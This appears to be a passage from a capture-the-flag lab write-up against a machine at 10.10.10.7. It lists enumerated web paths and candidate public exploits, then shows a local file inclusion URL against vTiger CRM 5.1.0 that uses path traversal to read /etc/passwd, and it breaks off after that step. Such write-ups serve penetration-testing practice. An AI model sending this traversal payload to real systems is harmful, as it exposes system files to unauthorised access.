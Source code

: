 #### http 
Visited and viewed source the following URLs:
* https://10.10.10.7/static
* https://10.10.10.7/mail/
* https://10.10.10.7/images/
* https://10.10.10.7/panel/
* https://10.10.10.7/vtigercrm/index.php
￼

### Vulnerabilities 
---

List of potential vulenerabilities: 
```
Cyrus IMAPD 2.3.2 - 'pop3d' Remote Buffer Overflow (1)  | exploits/linux/remote/1813.c
Cyrus IMAPD 2.3.2 - 'pop3d' Remote Buffer Overflow (2)  | exploits/multiple/remote/2053.rb
Cyrus IMAPD 2.3.2 - 'pop3d' Remote Buffer Overflow (3)  | exploits/linux/remote/2185.pl
————————————————————————————————————————————————
Apache < 1.3.37/2.0.59/2.2.3 mod_rewrite - Remote Overflow | exploits/multiple/remote/2237.sh
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak           | exploits/linux/webapps/42745.py
Apache Struts 2.2.3 - Multiple Open Redirections           | exploits/multiple/remote/38666.txt
————————————————————————————————————————————————
Webmin 1.5 - Brute Force / Command Execution        | exploits/multiple/remote/746.pl
Webmin 1.5 - Web Brute Force (CGI)                  | exploits/multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit) | exploits/unix/remote/21851.rb
————————————————————————————————————————————————
Roundcube 1.2.2 - Remote Code Execution              | exploits/php/webapps/40892.txt
Roundcube Webmail - Multiple Vulnerabilities         | exploits/php/webapps/11036.txt
Roundcube Webmail 0.1 - 'index.php' Cross-Site Scrip | exploits/php/webapps/28988.txt
Roundcube Webmail 0.1 - CSS Expression Input Validat | exploits/php/webapps/30877.txt
Roundcube Webmail 0.2 - Cross-Site Scripting         | exploits/php/webapps/33473.txt
Roundcube Webmail 0.2-3 Beta - Code Execution        | exploits/php/webapps/7549.txt
Roundcube Webmail 0.2b - Remote Code Execution       | exploits/php/webapps/7553.sh
Roundcube Webmail 0.3.1 - Cross-Site Request Forgery | exploits/php/webapps/17957.txt
Roundcube Webmail 0.8.0 - Persistent Cross-Site Scri | exploits/php/webapps/20549.py
Roundcube Webmail 1.1.3 - Directory Traversal        | exploits/php/webapps/39245.txt
Roundcube rcfilters plugin 2.1.6 - Cross-Site Script | exploits/linux/webapps/45437.txt
————————————————————————————————————————————————
vTiger CRM 5.1.0 - Local File Inclusion              | exploits/php/webapps/18770.txt
————————————————————————————————————————————————
Elastix 2.2.0 - 'graph.php' Local File Inclusion
```

### Exploits

---
#### 1. Exploit the 'Local File Inclusion' vulnerabilities
vTiger CRM 5.1.0 - Local File Inclusion
* https://www.exploit-db.com/exploits/18770 
*  https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%0
```
```